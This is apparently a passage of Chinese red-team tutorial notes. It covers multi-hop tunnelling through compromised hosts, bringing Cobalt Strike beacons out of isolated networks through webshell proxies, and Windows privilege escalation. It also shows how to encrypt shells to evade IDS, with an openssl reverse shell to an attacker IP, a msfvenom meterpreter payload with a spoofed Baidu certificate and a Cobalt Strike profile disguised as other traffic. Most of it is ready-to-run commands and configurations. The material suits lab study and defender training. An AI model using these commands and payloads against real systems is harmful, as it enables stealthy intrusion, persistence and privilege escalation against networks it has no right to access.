配置socks5代理连接到本机1080端口上
```


##### 二层代理(1)

VPS————>A主机————>B主机

**A主机：**

```
./ew_for_linux64 -s lcx_tran -l 1080 -f 10.48.128.130  -g 8888
-l     本地监听端口——供上一级连接
-f     下一级肉鸡ip
-g     下一级肉鸡监听的端口
```


**B主机：**

```
ew_for_Win.exe -s ssocksd  -l 8888
-l     本地监听端口——供上一级连接
```



**VPS：**

```
配置socks5代理连接到A主机192.168.23.132的1080端口上
```


##### 二层代理(2)

VPS<————>A主机(端口转发)<————>B主机

**VPS：**

```
./ew_for_linux64 -s lcx_listen -l 1080 -e 8888
-l     本地监听端口——供上一级连接
-e     本地监听端口——供下一级肉鸡连接
```



**A主机：**

```
./ew_for_linux64 -s lcx_slave -d 192.168.23.1 -e 8888 -f 10.48.128.130 -g 9999
-d     上一级ip
-e     上一级开放的端口
-f     下一级肉鸡ip
-g     下一级肉鸡ip监听的端口
```



**B主机：**

```
ew_for_Win.exe -s ssocksd -l 9999
-l     本地监听端口——供上一级连接
```



**VPS主机：**

```
配置socks5代理连接到本机1080端口上
```


##### 三层代理

VPS主机<————>A主机<————>B主机<————>C主机

**VPS主机:**

```
./ew_for_linux64 -s lcx_listen -l 1080 -e 8888
-l     本地监听端口——对外接口
-e     本地监听端口——供下一级肉鸡连接
```



**A主机**

```
./ew_for_linux64 -s lcx_slave  -d 192.168.23.1 -e 8888 -f 10.48.128.130 -g 2222
-d     上一级ip
-e     上一级开放的端口
-f     下一级肉鸡ip
-g     下一级肉鸡ip监听的端口
```



**B主机**

```
ew_for_Win.exe -s lcx_listen  -l 2222 -e 3333
-l     本地监听端口——供上一级连接
-e     本地监听端口——供下一级肉鸡连接
```



**C主机**

```
ew_for_Win.exe -s rssocks -d 10.25.23.128 -e 3333
-d     上一级ip
-e     上一级开放的端口
```


**VPS主机：**

```
配置socks5代理连接到本机1080端口上
```


#### vemon

```
	Venom是一款为渗透测试人员设计的使用Go开发的多级代理工具，可将多个节点进行连接，然后以节点为跳板，构建多级代理。渗透测试人员可以使用Venom轻松地将网络流量代理到多层内网，并轻松地管理代理节点。
```

源码下载地址：https://github.com/Dliv3/Venom/releases

已编译版本：https://github.com/Dliv3/Venom

**实验环境：**

**攻击机(Kali)：192.168.23.1**

**A主机(Linux)：192.168.23.1，10.48.128.132**

**B主机(Windows2008)：10.48.128.130、10.25.23.128**

**C主机(Windows 2012)：10.25.23.129**



VPS<————A主机————>B主机<————C主机

**vps主机**

```
./admin_linux_x64 -lport 9999     
-lport     本地监听端口
```



**A主机**

```
./agent_linux_x64 -rhost 192.168.23.1 -rport 9999
-rhost     远端ip地址
-rport     远端监听端口
```



**B主机**

```
./agent.exe -lport 8888
-lport     本地监听端口
```



**VPS主机**

```
show        //查看节点地图
goto 1      //进入节点1——对节点1进行控制
connect 10.48.128.130 -lpor 8888      //连接B主机8888端口
goto 2	   //进入节点2-对节点2进行控制
listen  9999   //在节点2上监听9999端口
```



**C主机**

```
agent.exe -rhost 10.25.23.128 -rport 9999
-rhost     远端ip地址
-rport     远端监听端口
```



**在节点2上开启socks代理，端口为7777**



**其他用法：**

**上传：**

```
goto 1      //进入节点1——对节点1进行控制
upload /etc/passwd security/.config/Typora/typora-user-images/image/passwd    //上传/etc/passwd文件到目标主机security/.config/Typora/typora-user-images/image目录下
```



**下载：**

```
goto 1 	//进入节点1——对节点1进行控制
download /etc/passwd /tmp/passwd	//下载目标主机/etc/passwd文件保存到本机/tmp目录下
```


**Shell：**

```
goto 1		//进入节点1——对节点1进行控制
shell 	    //进入到目标主机Shell
```



**Socks代理：**

```
socks 12345  //开启socks代理，端口为12345
```



**lforward：** 

```
goto 1       //进入节点1——对节点2进行控制
lforward 127.0.0.1 22 3333      // 把本地22端口映射到节点的3333端口
```



**rforward：**

```
goto 1       //进入节点1——对节点1进行控制
rforward 10.48.128.130 8080 3333      //把远端10.48.128.130:8080映射到本地的3333端口
```




#### Chisel

```
	Chisel可用来搭建内网隧道，类似于常用的frp和nps之类的工具。由于目前使用的人比较少，因此对于有些杀软还不能准确的识别出该工具。chisel可以进行端口转发、反向端口转发以及Socks流量代理，使用go语言编写，支持多个平台使用，是进行内网穿透的一个鲜为人知的好工具。
```

下载地址：https://github.com/jpillora/chisel/releases/

**实验环境**

**攻击机(Kali)：192.168.32.1**

**Web服务器(Linux)：192.168.32.132，10.48.128.128**

**OA服务器(Windows2008)：10.48.128.25**


假设已经获取到了WEB服务器的控制权限，但无法直接访问内网中的OA服务器。A主机配置了两块网卡，一块连接外网，另一块(10.48.128.128)连接内网中的OA服务器。OA服务器可以处于内网中，无法访问外网。

**测试目标为：通过A主机去访问内网中的OA服务器**

**1、下载Chisel上传到A主机上，在A主机上开启Chisel服务端模式**

```
 ./chisel  server -p 8888 --socks5
```



**2、在Kali攻击机上开启Chisel客户端模式，连接到A主机的服务端上**

```
./chisel client 192.168.23.132:8888 socks
```



**3、隧道连接成功后，在Kali主机上的浏览器配置好socks5代理**



**4、成功访问到内网OA服务器**


### frp 内网穿透

```
	frp 是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 等多种协议。可以将内网服务以安全、便捷的方式通过具有公网 IP 节点的中转暴露到公网。
   通过在具有公网 IP 的节点上部署 frp 服务端，可以轻松地将内网服务穿透到公网，同时提供诸多专业的功能特性，这包括：
	客户端服务端通信支持 TCP、KCP 以及 Websocket 等多种协议。 
	采用 TCP 连接流式复用，在单个连接间承载更多请求，节省连接建立时间。 
	代理组间的负载均衡。 端口复用，多个服务通过同一个服务端端口暴露。 
	多个原生支持的客户端插件（静态文件查看，HTTP、SOCK5 代理等），便于独立使用 frp 客户端完成某些工作。 
	高度扩展性的服务端插件系统，方便结合自身需求进行功能扩展。 服务端和客户端 UI 页面。
```

**下载地址：**https://github.com/fatedier/frp/releases

**代理类型**

frp 支持多种代理类型来适配不同的使用场景。

```
tcp ：单纯的 TCP 端口映射，服务端会根据不同的端口路由到不同的内网服务。
udp ：单纯的 UDP 端口映射，服务端会根据不同的端口路由到不同的内网服务。
http ：针对 HTTP 应用定制了一些额外的功能，例如修改 Host Header，增加鉴权。
https ：针对 HTTPS 应用定制了一些额外的功能。
stcp ：安全的 TCP 内网代理，需要在被访问者和访问者的机器上都部署 frpc，不需要在服务端暴露端口。
sudp ：安全的 UDP 内网代理，需要在被访问者和访问者的机器上都部署 frpc，不需要在服务端暴露端口。
xtcp ：点对点内网穿透代理，功能同 stcp，但是流量不需要经过服务器中转。
tcpmux ：支持服务端 TCP 端口的多路复用，通过同一个端口访问不同的内网服务。
```

**测试环境：**

攻击者IP：192.168.1.25（Kali）

VPS:123.125.43.192（Centos7）

目标主机：192.168.48.181（windows 2008）

**使用方法**

**在vps上传linux版本的frp**
首先先下载对应的安装包，上边有下载地址。打开后点击要下载的包，复制链接如下：

```
wget https://github.com/fatedier/frp/releases/download/v0.37.1/frp_0.37.1_linux_amd64.tar.gz
```



**下载完成后使用tar指令解压tar.gz文件**

```
tar -zxvf frp_0.36.2_linux_amd64.tar.gz
```



**在服务端使用frps,查看frps的配置,默认如下：**

```
[root@Security frp_0.36.2_linux_amd64]# cat frps.ini 
[common]
bind_port = 7000
dashboard_user = admin
dashboard_pwd = admin
dashboard_port = 10086

```



**启动服务端,7000端口已经启用**

```
./frps -c frps.ini
```



**打开浏览器，输入公网IP+10086端口（自己设置的控制台端口），这样服务端已经配置完成。**



**在客户端下windows的frp(环境是win),接下来配置frpc.ini如下**



**cmd运行frpc客户端方法：**

```
frpc.exe -c frpc.ini
```



**用Kali连接VPS主机7900端口，流量成功转发到目标主机3389端口上**



**让进程后台运行方法:**

**Linux：**

```
nohup ./frps -c ./frps.ini&
```

**Windows：**

```
`start /b frpc.exe -c frpc.ini
```

参考链接：https://www.freebuf.com/articles/network/271719.html


### ngrok 内网穿透

1，访问ngrok官网http://www.ngrok.cc/注册账号，注册完成后进行登录



2，购买这个美国的免费隧道



开通隧道，这里选择TCP隧道，将22端口映射到远程10823端口



确认开通



进入隧道管理页面

点击进入客户端下载页面，选择合适的客户端进行下载



将下载好的客户端上传到目标主机上，输入隧道管理页面当中的id号，然后运行



隧道建立成功



web页面也提示上线



测试：我们把内网的22端口隧道到了公网，使用公网地址来ssh远程连接




### nps内网渗透利用

**NPS简介：**

```
	nps是一款轻量级、高性能、功能强大的内网穿透代理服务器。与ngrok、frp等老牌内网穿透工具相比，nps可以算是一匹黑马。
	其优势主要有两点：一是强大的网页管理面板，nps可以在服务端通过网页管理所有用户行为以及映射记录；二是它集成了多种协议，包括tcp/udp隧道，socks5以及p2p，可以满足多种需求。
	在渗透测试方面，支持无配置文件模式，方便进行内网探测。
```

**NPS启动：**

NPS分为服务端和客户端

下载地址：https://github.com/cnlh/nps/releases

**服务端（Linux系统）：**

**下载NPS服务端和解压缩：**

```
wget https://github.com/ehang-io/nps/releases/download/v0.26.10/linux_amd64_server.tar.gz
tar -xf linux_amd64_server.tar.gz
```



**NPS服务端配置文件修改：conf/nps.conf**

```
web_username=admin		//Web界面登录用户名
web_password=password	//Web界面登录密码
```



```
nps install  //nps安装
nps start  	 //nps启动
```



**访问nps服务器Web界面，用admin/password密码登录**

http://IP:8080


**配置客户端**

点击新增



配置参数 






**客户端（Windows系统）**

- 在([https://github.com/ehang-io/nps/releases](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Fehang-io%2Fnps%2Freleases))页面下载`[windows_amd64_client.tar.gz]`上传到内网主机中

解压后运行该命令



成功连接



 

**建立TCP隧道**

**客户端ID要和刚才新建的客户端ID一致，将内网主机3389端口转发到VPS9999端口上**



**本机访问VPS主机9999端口，自动转发到内网主机3389端口上**



### 在不出网的情况下使cs上线

```
  拿到服务器权限之后， 如果已控主机无法访问互联网(不出网)，只能使用regeorg/Tunna/ABPTTS等基于webshell的内网代理，只需要将webshell上传到目标主机即可。webshell端使用socketchannel建立tcp连接，基于session来区分不同的tcp连接。client端建立tcp监听，将读取到的数据使用post方式提交到webshell
```

**实验环境：**

攻击机(Kali Linux)：192.168.0.1

目标边界服务器(Ubuntu)：192.168.0.134,192.168.52.128

目标内网Web服务器(Windows 2008)：192.168.52.138

**实验拓扑图：**



**左侧为攻击者VPS(Kali Linux)；右侧是一个小型内网，包含二台服务器；边界服务器通过nginx代理将80端口流量转发到内网web服务器的80端口上，假设目前已经拿到了内网WEB服务器的Webshell，但是内网web服务器不能访问外网，需要通过regeorg/Tunna/ABPTTS等基于webshell的内网代理工具来进行转发**

#### **pystinge**

```
  pystinger是通过webshell来实现内网的SOCK4代理。
  使用python开发，当前支持php，jsp(x)，aspx三种代理脚本。可直接用于metasploit，cobalt strike上线。
```

##### Socks4代理

**1、上传proxy.php到内网Web服务器上，确保可以正常访问。**




**2、再将stinger_server上传到内网Web服务器，运行如下命令运行服务端**

```
start stinger_server.exe 0.0.0.0
```



**3、在VPS上使用60000端口建立socks连接**

```
./stinger_client -w http://192.168.0.134/proxy.php -l 0.0.0.0 -p 60000
```



**4、连接成功后，在VPS主机上的浏览器配置好socks4代理，即可访问内网**


##### CS上线

**1、通过上面的步骤建立好socks4代理后，cs中新建listener，192.168.52.138为内网Web服务器IP地址，60020为转发端口**



**2、生成一个Windows后门木马，监听器选择我们刚才创建的监听器，生成完成后上传到内网Web服务器上**



**3、在内网Web服务器上执行后门木马，成功反弹Shell到CS上**



#### C2ReverseProxy

```
  在渗透过程中遇到不出网的环境时，可使用该工具建立反向代理通道，使CobaltStrike生成的beacon可以回弹到CobaltStrike服务器。
```

**下载地址：https://github.com/Daybr4ak/C2ReverseProxy**

1、将C2script目录下的对应文件，如proxy.php以及C2ReverseServer上传到内网Web服务器上。



2、使用C2ReverseServer建立监听端口

```
start DReverseServer.exe  //默认端口为64535
```



3、修改刚才上传到服务器上的proxy.php文件，与C2ReverseServer监听的端口一致。



4、本地或C2服务器上运行C2ReverseClint工具

```
./DReverseClint -t 192.168.0.1:64535 -u http://192.168.0.134/proxy.php  //192.168.0.1为C2服务器IP，64535端口为C2服务器监听的端口
```



5、使用CobaltStrike建立本地Listener(127.0.0.1 64535)端口与C2ReverseServer建立的端口对应


6、使用建立的Listner生成可执行文件beacon.exe传至目标服务器运行



7、可以看到CobaltStrike上线。




### **反弹Shell流量加密**

```
  红队进行渗透测试的后续渗透阶段为了扩大战果，往往需要横行渗透，往往需要反弹 shell，如果反弹 shell 都是明文传输，那么内网里有 IDS 或者防护软件会进行流量进行分析，检测带有攻击特征，很快被发现，如果蓝队对攻击流量回溯分析，就可以复现攻击的过程，从而进行阻断红队攻击行为。
```

**实验环境：**

```
攻击机(Kali Linux)：192.168.23.1
目标主机1（Ubuntu Linux）：192.168.23.142
目标主机2（Windows 2008）：192.168.23.128
```

****

**目前攻击者kali系统通过攻击行为获取到了目标主机的系统权限，想反弹Shell到本地Kali主机上。但是目标主机域存在IDS等流量监测设备，为了防止被监控，将演示三种不同方式拿反弹shell后如何流量加密，不被IDS等流量监测设备发现！**

#### **OpenSSL流量加密**

##### 一、生成证书

**在kali主机上使用OpenSSL生成自签名证书**

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

**成功生成后，当前目录会生成两个pem加密key文件**

****

##### 二、反弹Shell

**Kali主机上用openssl开启一个s_server监听8888端口**

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
```

****

**在目标机器上用openssl反弹加密shell**

```
mkfifo /tmp/aaa; /bin/sh -i < /tmp/aaa 2>&1 | openssl s_client -quiet -connect 192.168.23.1:8888 > /tmp/aaa; rm /tmp/aaa
```

****

##### 三、抓取流量

**使用Wireshark抓包分析，通过TCP流查看到的信息都是乱码，经过了加密！**

****


#### **Metasploit流量加密**

```
  Metasploit常用于内网渗透渗透中，由于流量传输未加密，所有流量很容易IDS等流量监测设备识别出来。下面我们将用openssl为Metasploit流量进行加密
```

##### **一、创建 SSL/TLS 证书**

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
-subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
-keyout www.baidu.com.key \
-out www.baidu.com.crt && \
cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem && \
rm -f www.baidu.com.key www.baidu.com.crt
```

**这里我们模拟百度的SSL证书，可自行修改模拟其他可信度高的证书**

****

**检查baidu的key生成情况：**

****

##### **二、生成后门**

**创建完证书后，创建一个HTTP或HTTPS类型的有效负载，并为其提供PEM格式的证书以用于验证连接。**

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.23.1 LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=www.baidu.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o shell.exe
```

- **HandlerSSLCert：向处理程序通知所使用的PEM证书。**
- **StagerVerifySSLCert：当收到一个连接时执行SSL证书验证。**
- **PayloadUUIDTracking和PayloadUUIDName：可以在监听的时候过滤掉不需要的回连请求。**

****

##### **三、启动监听**

```
use exploit/multi/handler set payload windows/meterpreter/reverse_winhttps   //使用windows/meterpreter/reverse_httpd即可set LHOST 192.168.23.1set LPORT 443set HandlerSSLCert /tmp/www.baidu.com.pemset StagerVerifySSLCert trueexploit
```

**配置侦听器时还需要使用两个附加选项HandlerSSLCert和StagerVerifySSLCert。这是为了通知处理程序它将使用的证书（与有效负载相同），并在接收到连接时执行SSL证书验证。**



##### 四、反弹Meterpreter会话

**将生成的shell.exe后门复制到Windows 2008主机上执行，成功反弹回Meterpreter会话**



##### 五、抓取流量

**使用Wireshark抓包分析，通过TCP流查看到的信息都是乱码，成功加密了流量**

****


#### **Cobalt Strike 4.0流量加密**

```
  cobalt strike是很多红队的首选的攻击神器，在后渗透方面效果显著很好，导致很多IDS入侵检测工具和流量检测工具已经可以拦截和发现，特别是流量方面，如果使用默认证书进行渗透和测试，特别在高度安全的环境下，好不容易找到一个突破口，因为证书没修改，被流量检测出来并进行拦截，检测报告将返回给管理员，管理员就能马上将缺口进行修复。那么红队之前的攻击就会付诸东流，攻击计划就要重新制定。
```

**在运行 Cobalt Strike 时，默认使用的证书是 cobaltstrike.store：**

****

**下面我们将使用新的技术生成新的证书来逃避IDS检测。**

##### **一、证书生成**

**利用keytool生成了一个证书，以下生成证书信息可以自行修改**

```
keytool -genkey -alias CS -keyalg RSA -validity 36500 -keystore CS.store
```



**需要输入密码、以及一些基本信息后，成功生成cs.store证书！！**

##### **二、创建C2-profile文件**

**这是cs内置工具，用于控制cs流量，可以防止安全设备对流量特征进行监控和拦截！！**

**在CS目录下创建一个cs.profile文件，写入以下内容：**

```
set sample_name "CS POS Malware";set sleeptime "5000"; # use a ~30s delay between callbacksset jitter    "10";    # throw in a 10% jitterset useragent "Mozilla/5.0 (Windows NT 6.1; rv:24.0) Gecko/20100101 Firefox/24.0";#设置证书，注意以下内容得和你之前生成的证书一样https-certificate {	set CN      "zhuzhuxia";	set O        "Microsoft";	set C        "en";	set L        "US";	set OU      "Microsoft";	set ST      "US";	set validity "365";}#设置，修改成你的证书名称和证书密码code-signer{	set keystore "CS.store";	set password "123456";	set alias "CS";}#指定DNS beacon不用的时候指定到IP地址set dns_idle "8.8.4.4";#每个单独DNS请求前强制睡眠时间set dns_sleep "0";#通过DNS上载数据时主机名的最大长度[0-255]set maxdns    "235";http-post {	set uri "/windebug/updcheck.php /aircanada/dark.php /aero2/fly.php /windowsxp/updcheck.php /hello/flash.php";	client {		header "Accept" "text/plain";		header "Accept-Language" "en-us";		header "Accept-Encoding" "text/plain";		header "Content-Type" "application/x-www-form-urltrytryd";		id {			netbios;			parameter "id";		}		output {			base64;			prepend "&op=1&id=vxeykS&ui=Josh @ PC&wv=11&gr=backoff&bv=1.55&data=";			print;		}	}	server {		output {			print;		}	}}http-get {	set uri "/updates";	client {		metadata {			netbiosu;			prepend "user=";			header "Cookie";		}	}	server {		header "Content-Type" "text/plain";		output {			base64;			print;		}	}}
```

**主要需要修改的是https-certificate和code-signer两处地方，对应keytool填写的信息即可。**

**使用CS的c2lint来验证cs.profile是否成功生成和执行**

```
./c2lint cs.profile
```

****

****

##### **三、配置teamserver**

**teamserver 默认端口是 50050 很容易被检测出来，我们将修改端口防止其被检测出来。直接修改teamserver文件即可：**

```
vim teamserver
```

**修改默认端口为52523**

****

##### **四、上线CS**

**运行teamserver并加载cs.profile文件**

```
sudo ./teamserver 192.168.23.1 123456 cs.profile
```

****

**开启Cobalt Strike，端口和刚修改的teamserver配置一致**

****

**创建HTTPS类型的有效负载**

****

**然后通过Cobalt strike生成的各种类型的木马，上传到目标主机Windows 2008后执行，成功上线：**



##### 五、抓取流量

**使用Wireshark抓包分析，通过TCP流查看到的信息都是乱码，成功加密了流量**



**参考文章：https://www.freebuf.com/articles/web/259222.html**


## 四、权限提升

```
  在 Windows中，权限大概分为四种、分别是User、Administrator、System、TrustedInstaller。在这四种权限中，我们经常接触的是前三种。第四种权限 TrustedInstaller，在常规使用中通常不会涉及。
  User:普通用户权限，是系统中最安全的权限（因为分配给该组的默认权限不允许成员修改操作系统的设置或用户资料)。
  Administrator:管理员权限。可以利用Windows 的机制将自己提升为Svstem权限，以便操作SAM文件等。
  System:系统权限。可以对SAM等敏感文件进行读取，往往需要将Administrator权限提升到System权限才可以对散列值进行Dump操作。
  TrustedInstaller:Windows中的最高权限。对系统文件，即使拥有System权限也无法进行修改。只有拥有TrustedInstaller权限的用户才可以修改系统文件。
  低权限级别将使渗透测试受到很多限制。在Windows中，如果没有管理员权限,就无法进行获取散列值、安装软件、修改防火墙规则、修改注册表等操作。Windows操作系统中管理员账号的权限,以及 Linux操作系统中root账户的权限，是操作系统的最高权限。提升权限（也称提权）的方式分为以下两类。
  纵向提权:低权限角色获得高权限角色的权限。例如，一个 WebShell权限通过提权,拥有了管理员权限,这种提权就是纵向提权,也称作权限升级。
  横向提权:获取同级别角色的权限。例如，在系统A中获取了系统B的权限，这种提权就属于横向提权。
  常用的提权方法有系统内核溢出漏洞提权、数据库提权、错误的系统配置提权、组策略首选项提权、Web 中间件漏洞提权、DLL 劫持提权、滥用高权限令牌提权、第三方软件/服务提权等。
```

### Windows补丁信息收集

#### 通过手动执行命令发现缺失补丁1111

```
whoami /groups   //查看当前权限
systeminfo   //查看系统补丁
Wmic qfe get Caption,Description,HotFixID,InstalledOn   //查看系统补丁
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"kb3143141" /C:"KB976902"   //对系统补丁包进行过滤，查找指定补丁包
```


#### 利用Metasloit发现缺失补丁(需要先获取到一个Meterpreter session)

```
use post/windows/gather/enum_patches
set session x
exploit
```


#### 利用Metasloit内置查找漏洞模块(需要先获取到一个Meterpreter session)

```
use post/multi/recon/local_exploit_suggester
set session x
exploit
```


#### Windows Exploit Suggester

下载链接：https://github.com/AonCyberLabs/Windows-Exploit-Suggester

```
python windows-exploit-suggester.py --update  //更新漏洞库
python windows-exploit-suggester.py -d 2021-10-08-mssb.xls -i sysinfo.txt   //需要将目标主机systeminfo系统保持到sysinfo.txt文件中，然后和漏洞库进行对比
```



#### powershell 中的Sherlock脚本

```
Import-Module .\Sherlock.ps1   //导入
Find-AllVulns	//查找漏洞
```


#### Windows内核提权信息表

github上windows系统溢出漏洞提权的汇总：https://github.com/SecWiki/windows-kernel-exploits

|                    Windows Server 2003/xp                    |                     Windows Server 2012                      |                    Windows Server 2008/7                     |
| :----------------------------------------------------------: | :----------------------------------------------------------: | :----------------------------------------------------------: |
| **CVE-2018-8120(MS18-8120) \| KB4131188<br/>MSF内置，有exe程序** | **CVE-2018-8120(MS18-8120) \| KB4131188  <br/>MSF常用，有exe程序** | **CVE-2018-8120(MS18-8120) \| KB4131188 <br/>MSF常用，有exe程序** |
|       **MS16-032 \| KB3139914 <br>MSF内置，有exe程序**       |      **MS16-032 \| KB3139914 <br/>MSF内置，有exe程序**       |      **MS16-032 \| KB3139914<br/> MSF内置，有exe程序**       |
|        MS15-097 \| KB3079904<br/>MSF中没有利用exploit        |        MS15-097 \| KB3079904<br/>MSF中没有利用exploit        |     MS16-016 \| KB3124280 <br/>MSF限32位的Windows 7 SP1      |
|        MS15-077 \| KB3077657<br/>MSF中没有利用exploit        |        MS15-077 \| KB3077657<br/>MSF中没有利用exploit        |      MS16-014 \| KB3134228 <br/>MSF限Windows 7 SP0/SP1       |
|       **MS15-051 \| KB3045171<br/>MSF内置，有exe程序**       |       **MS15-051 \| KB3045171<br/>MSF内置，有exe程序**       |        MS15-097 \| KB3079904<br/>MSF中没有利用exploit        |
| **MS14-058 \| KB3000061<br/>(CS中常用，MSF内置，有exe程序)** | **MS14-058 \| KB3000061<br/>(CS中常用，MSF内置，有exe程序)** |        MS15-077 \| KB3077657<br/>MSF中没有利用exploit        |
|        MS13-046 \| KB2829361<br/>MSF中没有利用exploit        |        MS13-046 \| KB2829361<br/>MSF中没有利用exploit        |       **MS15-051 \| KB3045171<br/>MSF内置，有exe程序**       |
|  MS12-042 \| KB2707511  sysret-pid<br/>MSF中没有利用exploit  |  MS12-042 \| KB2707511  sysret-pid<br/>MSF中没有利用exploit  | **MS14-058 \| KB3000061<br/>(CS中常用，MSF内置，有exe程序)** |
|        MS12-020 \| KB2621440<br/>MSF中没有利用exploit        |                                                              |     MS13-081\|KB2870008<br/>MSF限32位的Windows 7 SP0/SP1     |
|        MS12-018 \| KB2641653<br/>MSF中没有利用exploit        |                                                              |        MS13-046 \| KB2829361<br/>MSF中没有利用exploit        |
|        MS12-009 \| KB2645640<br/>MSF中没有利用exploit        |                                                              | MS13-053 \| KB2850851 epathobj <br/>MSF限32位的Windows 7 SP0/SP1 |
|        MS12-003 \| KB2646524<br/>MSF中没有利用exploit        |                                                              |          MS13-005 \| KB2778930<br/>MSF限32位的系统           |
|        MS11-097 \| KB2620712<br/>MSF中没有利用exploit        |                                                              |  MS12-042 \| KB2707511 sysret-pid<br/>MSF中没有利用exploit   |
|       MS11-080 \| KB2592799<br/>(MSF中只支持32位机器)        |                                                              |       MS11-080 \| KB2592799<br/>(MSF中只支持32位机器)        |
|        MS11-062 \| KB2566454<br/>MSF中没有利用exploit        |                                                              |              MS10-092 \| KB2305420<br/>MSF内置               |
|        MS11-056 \| KB2507938<br/>MSF中没有利用exploit        |                                                              |                                                              |
|        MS11-046 \| KB2503665<br/>MSF中没有利用exploit        |                                                              |                                                              |
|        MS11-014 \| KB2478960<br/>MSF中没有利用exploit        |                                                              |                                                              |
|        MS11-011 \| KB2393802<br/>MSF中没有利用exploit        |                                                              |                                                              |
|        MS10-084 \| KB2360937<br/>MSF中没有利用exploit        |                                                              |                                                              |
| MS10-015 \| KB977165 Ms Viru<br/>MSF中只有Window2000SP4和win7 32位的exp |                                                              |                                                              |
|        MS09-041 \| KB971657<br/>MSF中没有利用exploit         |                                                              |                                                              |
|   MS09-012 \| KB952004 （PR提权）<br/>MSF中没有利用exploit   |                                                              |                                                              |
| MS09-012 \| KB956572 （巴西烤肉提权)<br/>MSF中没有利用exploit |                                                              |                                                              |
|                                                              |                                                              |                                                              |

实战中最常用的本地溢出提权有 CVE-2018-8120、MS16-032、MS15-051 和 MS14-058 。在MSF中，最常用的提权模块是CVE-2018-8120；在CobaltStrike中，最常用的提权模块的是 MS14-058。这四个提权，都有对应的exe程序。exe程序均支持32和64位的机器。


#### 实战MSF中CVE-2018-8120模块本地溢出漏洞提权 

假设我们已经获取到了一台Windows Server 2008的Meterpreter会话，权限为test普通用户权限。通过补丁信息收集发现目标主机未安装KB4131188 补丁

```
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"kb4131188"
```



接下来我们用CVE-2018-8120来进行提权，成功提权到System系统权限

```
use exploit/windows/local/ms18_8120_win32k_privesc
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.23.1
set lport  8888
set session 2
exploit
```



### Windows操作系统配置错误利⽤

```
	在Windows操作系统中，攻击者通常会通过系统内核提权溢出漏洞来提权，但如果碰到无法通过系统内核溢出漏洞提取服务器权限的情况，就会利用系统中的配置文件来提权。Windows操作系统的常见配置错误包括管理员凭证配置错误、服务配置、故意削弱的安全措施、用户权限过高等。
	对网络安全维护人员来讲，对操作系统的合理、正确的配置是重中之重
```

#### 系统服务权限配置错误

```
	windows系统服务文件在操作系统启动时加载和运行，并在后台调用可执行文件。因此，如果一个低权限的用户对此类系统服务调用的可执行文件拥有写权限，就可以将该文件替换成任意可执行文件，并随着系统服务的启动获得系统限。windows服务是以system权限运行的，因此，其文件夹，文件和注册表键值都是受强访问控制机制保护的。但是在一些情况下操作系统中任然存在一些没有得到有效保护的服务
*系统服务权限配置错误有如下两种可能：
*服务未启动：攻击者可以使用任意服务替换原来的服务，然后重启服务
*服务正在运行且无法被终止：这种情况符合绝大多数的漏洞利用场景，攻击者通常会利用dll劫持技术并尝试重启服务来提权
```

##### 漏洞检测

###### 通过PowerUp来查找目标主机中的Windows服务漏洞

下载链接：https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp

```
powershell.exe -exec bypass -Command "& {Import-Module ./PowerUp.ps1; Invoke-AllChecks}"
```

从下图中可以看到powerup列出了可能存在问题的服务，在AbuseFunction部分直接给出了利用方式



##### 漏洞利用

###### Metasploit漏洞利用

在Metasploit中，对应的利用模块是service_permissions。选择"AGGRESSIVE"选项，可以利用目标机器上每一个有缺陷的服务。该选项被禁用时，该模块在第一次提权成功后就会停止工作了

```
use exploit/windows/local/service_permissions
set session x   //需要使用获取到一个低权限meterpreter会话
set lhost 192.168.52.129
set lport 8888
exploit
```



该模块尝试使用两种方法来提升到system权限。第一种，如果Meterpreter session正以管理员权限运行，该模块会尝试创建并运行一个新的服务。如果当前账户权限不允许创建服务，该模块会判断哪些服务的文件或者文件夹权限有问题，并允许对其进行劫持。当创建新的服务或者劫持已经存在的服务时，该模块会创建一个可执行程序，其文件名和安装的文件路径是随机生成的。


#### 注册表键AlwaysInstallElevated

```
	注册表键AlwaysInstallElevated是一个策略设置项。windows允许低权限用户以System权限运行安装文件。如果启用此策略设置项，那么任何权限用户都能以NT AUTHORITYSYSTEM权限来安装恶意的MSI(Microsoft Windows Installer)文件
```

**1、PathsAlwaysInstallElevated漏洞产生的原因**

该漏洞产生的原因是用户开启了Windows Installer特权安装功能,



在"运行"设置框中输入"gpedis.msc"，打开组策略编辑器

* 组策略—计算机配置—管理模板—Windows组件—Windows Installer—永远以高特权进行安装：选择启用
* 组策略—用户配置—管理模板—Windows组件—Windows Installer—永远以高特权进行安装：选择启用

命令行下的启用方法：

```
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```



**2、Windows Installer的相关知识点**

​	Windows Installer，微软操作系统的组件之一，是专门用来管理和配置软件服务的工具。除了是一个安装程序外，它还可以实现管理软件的安装，管理软件组件的添加和删除，监视文件复原，并通过使用回滚来维护基本的灾难恢复等功能。
​	Windows Installer技术分为以下两部分，它们结合在一起工作：客户端安装服务 (Msiexec.exe) 和 Microsoft软件安装 (MSI)软件包文件。Windows Installer通过Msiexec安装MSI中包含的信息程序。
MSI文件是Windows Installer的数据包，它实际上是一个数据库，包含安装一种产品所需要的信息和在很多安装情形下安装（和卸载）程序所需的指令和数据。MSI文件将程序的组成文件与功能关联起来。此外，它还包含有关安装过程本身的信息：如安装序列、目标文件夹路径、系统依赖项、安装选项和控制安装过程的属性。
​	而Msiexec就是用于安装Windows Installer安装包（MSI），一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。简单的说当您双击 .msi 文件时，就会运行 Msiexec.exe。

**3、PowerUP下的实战应用**

**（1）判断是否激活alwaysinstallelevated**

下载powerup

```
